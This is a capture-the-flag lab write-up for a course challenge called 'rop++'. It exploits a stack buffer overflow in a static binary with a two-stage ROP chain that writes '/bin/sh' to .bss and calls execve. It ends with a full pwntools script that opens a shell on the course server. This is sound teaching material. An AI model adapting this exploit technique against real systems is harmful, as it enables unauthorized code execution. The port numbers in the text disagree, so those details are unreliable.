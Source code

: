 ```yaml
---
title: Simple PWN - 0x12(Lab - `rop++`)
tags: [CTF, PWN, eductf]

category: "Security > Course > NTU CS > PWN"
---
```


# Simple PWN - 0x12(Lab - `rop++`)
###### tags: `CTF` `PWN` `eductf`

challenge: `nc edu-ctf.zoolab.org 10004`

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char buf[0x10];
    const char *msg = "show me rop\n> ";

    write(1, msg, strlen(msg));
    read(0, buf, 0x200);

    return 0;
}
```
```makefile!
gcc -fno-stack-protector -static -o chal rop++.c
```

## Analyze
* Obviously buffer overflow!!!
* Check protector
    ```bash!
    $ checksec chal
    [*] '/home/sbk6401/NTUCS/PWN/Lab/rop++/share/chal'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    ```

* Preliminary idea is using `ROP` chain and get shell, but the problem is where can I write `/bin/sh\x00`? We can use `vmmap` to observe where section is writable and readable → `0x4c5000~0x4c800`
![](https://imgur.com/018Nk8F.png)
    ```bash!
    $ readelf -S chal
    ...
    [25] .bss              NOBITS           00000000004c72a0  000c6290
           0000000000005980  0000000000000000  WA       0     0     32
    ...
    ```
    We can use <font color="FF0000">`.bss` section(`0x4c72a0`)</font> to write parameter `/bin/sh\x00`
    * <font color="FF0000">Note that</font>, because `ASLR` is enabled, so we cannot write `/bin/sh\x00` to stack, in addition, `PIE` is unable, so that we can write and read data from `.bss` section with fixed address

## Exploit - `ROP`
1. Write `ROP` chain in `buf` parameter
    ```bash!
    $ ROPgadget --binary chal --only "pop|leave|ret|syscall" --multibr > rop_gadget
    $ vim rop_gadget
    ```
    ```python!
    pop_rax_ret = 0x447b27
    pop_rdi_ret = 0x401e3f
    pop_rsi_ret = 0x409e6e
    pop_rdx_rbx_ret = 0x47ed0b
    syscall_ret = 0x414506
    leave_ret = 0x401797
    ```
2. Construct `ROP` chain
In order to achieve our idea, we need another read to write `/bin/sh\x00` to `.bss` section
    ```python!
    ROP_read = flat(
        # call read function
        pop_rax_ret, 0,
        pop_rdi_ret, 0,
        pop_rsi_ret, 0x4c72a0,
        pop_rdx_rbx_ret, 0x100, 0,
        syscall_ret,    
    )
    ```
    Then we need another `ROP` chain to call `shell`
    ```python!
    ROP_shell = flat(
        # Get shell
        pop_rax_ret, 0x3b,
        pop_rdi_ret, 0x4c72a0,
        pop_rsi_ret, 0,
        pop_rdx_rbx_ret, 0, 0,
        syscall_ret,

    )
    ```
    * Note that `0x4c72a0` is the beginning of `.bss` section
3. Send payload
    ```python!
    binsh = 0x68732f6e69622f #'/bin/sh\x00'
    r.sendafter("show me rop\n>", b'a'*0x28 + ROP_read + ROP_shell)
    r.send(flat(binsh))
    ```
4. Then we get shell and read flag
![](https://imgur.com/mLAdXz1.png)
* Whole exploit
    :::spoiler code
    ```python!
    from pwn import *

    #r = process('./chal')
    r = remote('edu-ctf.zoolab.org', 10003)
    raw_input()
    context.arch = 'amd64'

    pop_rax_ret = 0x447b27
    pop_rdi_ret = 0x401e3f
    pop_rsi_ret = 0x409e6e
    pop_rdx_rbx_ret = 0x47ed0b
    syscall_ret = 0x414506
    leave_ret = 0x401797

    binsh = 0x68732f6e69622f #'/bin/sh\x00'

    ROP_read = flat(
        # call read function
        pop_rax_ret, 0,
        pop_rdi_ret, 0,
        pop_rsi_ret, 0x4c72a0,
        pop_rdx_rbx_ret, 0x100, 0,
        syscall_ret,    
    )

    ROP_shell = flat(
        # Get shell
        pop_rax_ret, 0x3b,
        pop_rdi_ret, 0x4c72a0,
        pop_rsi_ret, 0,
        pop_rdx_rbx_ret, 0, 0,
        syscall_ret,

    )

    r.sendafter("show me rop\n>", b'a'*0x28 + ROP_read + ROP_shell)
    r.send(flat(binsh))

    r.interactive()
    ```
    :::
## Appendix
This payload will call `sys_read` and read something that we send, that is `0x68732f6e69622f`(`/bin/sh\x00`), and then it'll call `sys_execve`.